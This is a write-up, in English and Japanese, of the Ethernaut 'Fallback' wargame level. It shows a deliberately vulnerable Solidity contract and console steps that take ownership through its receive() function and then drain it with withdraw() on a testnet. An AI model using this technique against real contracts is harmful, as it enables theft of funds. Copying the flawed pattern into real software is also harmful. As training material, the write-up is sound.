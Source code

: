 ## Ethernaut-solution
---
### 1.Fallback

1. you claim ownership of the contract <br>
2. you reduce its balance to 0

### learning
- How to send Ether when intracting with an ABI<br>
- How to send Ether outside of the ABI <br>
- Converting to and from wei/Ether units <br>
- Fallback methods <br>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import '@openzeppelin/contracts/utils/math/SafeMath.sol';

contract Fallback {

  using SafeMath for uint256;
  mapping(address => uint) public contributions;//internal database how much Ether each address has and how many token each address has, how much money each address has 
  address payable public owner;

//constructor deployed it set as owner 
  constructor() public {//executed lifecycle of smartcontract first get deploy
    owner = msg.sender; //send as owner 
    contributions[msg.sender] = 1000 * (1 ether); //mapping contribution set amount of Ether
  }

//modifier can applied any function in a smart contract 
  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

//contributionsの構成にsecurityhallがある
//何回もfunction contribute()を起動して、senderがownerよりcontributionsがmany many timesの状況になればownerになれてしまう

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }


  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }

// this function is fallback function /you wanna send money to A contract 
  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);//the best way attack become the owner
    //contributions条件を満たすことが攻撃の最初の準備。satisfy second condition first.
    owner = msg.sender;
  }
}
```
### solution 

- 1.you claim ownership of the contract 

*contract*...reference of our smart contract 
```
n {methods: {…}, abi: Array(7), address: '0xc3309271b114BFdC7DaDCAd2C3ED67116A798624', transactionHash: undefined, constructor: ƒ, …}
```

*contract.address*...smartcontract address 
```
'0xc3309271b114BFdC7DaDCAd2C3ED67116A798624'
```

*player*...my address 
```
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'
```

```
await contract.contributions(player) 
o {negative: 0, words: Array(2), length: 1, red: null}
```

//Array 0: 0 。現状no valueなのがわかる
```
await contract.getContribution()
```

//0のまんま

//そこでcall contribute function! It's payable.value: 1 => 1 ETH 

//1ETH send 
```
contract.contribute({value: 1})
Promise {<pending>, _events: o, emit: ƒ, on: ƒ, …}
```

//1ETH sendでaccount valueが増えているか確認 key:value 
```
await contract.contributions(player)
o {negative: 0, words: Array(2), length: 1, red: null}
```
//Array 0: 1 。

//ownerの確認 
```
await contract.owner()
//this smartcontract own address
'0x9CB391dbcD447E645D6Cb55dE6ca23164130D008'
```

//playerの確認 = まだownerになってない
```
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'
```
```
//sendTransaction is special function from web3.js 
contract.sendTransaction({value: 1})
Promise {<pending>, _events: o, emit: ƒ, on: ƒ, …}
```
```
//transaction
⛏️ Sent transaction ⛏ https://rinkeby.etherscan.io/tx/0x3062639ee20c48140d527b324f283dfbca7b07bc2f42d1f01e907d3055b76177
⛏️ Mined transaction ⛏ https://rinkeby.etherscan.io/tx/0x3062639ee20c48140d527b324f283dfbca7b07bc2f42d1f01e907d3055b76177

```

//Transactionの成功によりcontractのownerが自分にchangeされているのを確認
```
await contract.owner()
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'
```



- 2.you reduce its balance to 0
```
//balanceの確認
await getBalance(contract.address)
'0.000000000000000002'
```

//function withdrawをreturn
//transfer all balance our wallet!
```
contract.withdraw()
Promise {<pending>, _events: o, emit: ƒ, on: ƒ, …}
```
```

⛏️ Sent transaction ⛏ https://rinkeby.etherscan.io/tx/0x4654244d4f2d9ece5c6cf290227532dda4960939ef760914f4e47cb9c7524c68
⛏️ Mined transaction ⛏ https://rinkeby.etherscan.io/tx/0x4654244d4f2d9ece5c6cf290227532dda4960939ef760914f4e47cb9c7524c68
```

//balanceが"0"になっているのを確認
```
await getBalance(contract.address)

'0'
```

